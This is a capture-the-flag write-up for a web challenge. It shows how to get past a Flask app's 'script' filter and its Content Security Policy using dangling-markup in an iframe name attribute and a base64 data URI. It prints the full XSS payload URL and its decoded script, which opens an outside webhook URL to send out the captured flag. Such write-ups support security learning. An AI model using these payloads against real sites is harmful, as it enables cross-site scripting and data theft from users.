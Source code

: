 # Double Nested Brief Solution

## Overview

This challenge involves a minimal Flask application with only 2 routes and a Content Security Policy (CSP) that restricts script execution to same-origin sources.

![Flask Application Code](image.png)

## Application Analysis

### Routes
- **`/`** - Index route with XSS vulnerability, but input is filtered through a `sanitize` function before rendering
- **`/gen`** - Endpoint that returns user input with `Content-Type: application/javascript` (crucial for bypass)

### Content Security Policy
```
default-src 'self'; script-src 'self'; style-src 'self'; img-src 'none'; 
object-src 'none'; frame-src data:; manifest-src 'none';
```

**Key CSP Restrictions:**
- `script-src 'self'` - Only allows scripts from same origin (hence the `/gen` endpoint)
- `frame-src data:` - Allows iframes with data URIs

## Vulnerability Analysis

### Sanitization Bypass
The `sanitize` function filters:
- The word "script" (case-insensitive)
- The `&` character (preventing HTML entity encoding in iframe srcdoc)

### Challenge Constraints
- Flag is **not** stored in cookies
- Flag is appended to the top window URL (see bot code below)

![Bot Implementation](image-1.png)

## Exploitation Strategy

### The Core Issue
Since `iframe src` is restricted to `data://` URIs and we can't use HTML entities due to `&` filtering, we need an alternative approach.

### Solution: Markup Dangling Attack

The key insight is exploiting how browsers handle malformed HTML attributes. When we create:

```html
<iframe src='data:text/html;base64,' name=
```

The browser automatically continues parsing text as the `name` attribute value until it finds a closing `>` tag. This means when the flag is appended to the URL, it becomes part of the iframe's `name` attribute.

### Payload Construction

1. **Base64 Encoded Script**: Create a script that accesses `self.name` and exfiltrates it
2. **Iframe with Dangling Attribute**: Use malformed `name` attribute to capture the flag
3. **Data URI**: Embed the script via base64-encoded data URI

**we can use new line %0A to bypass the regex for =**
### Final Payload

```
https://double-nested.tjc.tf/?i=%3Ciframe%0A%20src=%27data:text/html%3Bbase64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PXdpbmRvdy5vcGVuKCdodHRwczovL2doYWFhenkuZnJlZS5iZWVjZXB0b3IuY29tLz8nJTJic2VsZi5uYW1lICkiID48L3NjcmlwdD4%27%20name=flag
```

**Decoded Structure:**
```html
<iframe 
  src='data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PXdpbmRvdy5vcGVuKCdodHRwczovL2doYWFhenkuZnJlZS5iZWVjZXB0b3IuY29tLz8nJTJic2VsZi5uYW1lICkiID48L3NjcmlwdD4' 
  name=flag
```

**Base64 Decoded Script:**
```html
<script src="https://double-nested.tjc.tf/gen?query=window.open('https://ghaaazy.free.beeceptor.com/?'%2bself.name )"></script>
```

## Result

![Flag Capture](image-2.png)

The flag is successfully exfiltrated through the webhook when the malformed iframe captures it in the `name` attribute and the embedded script accesses it via `self.name`.
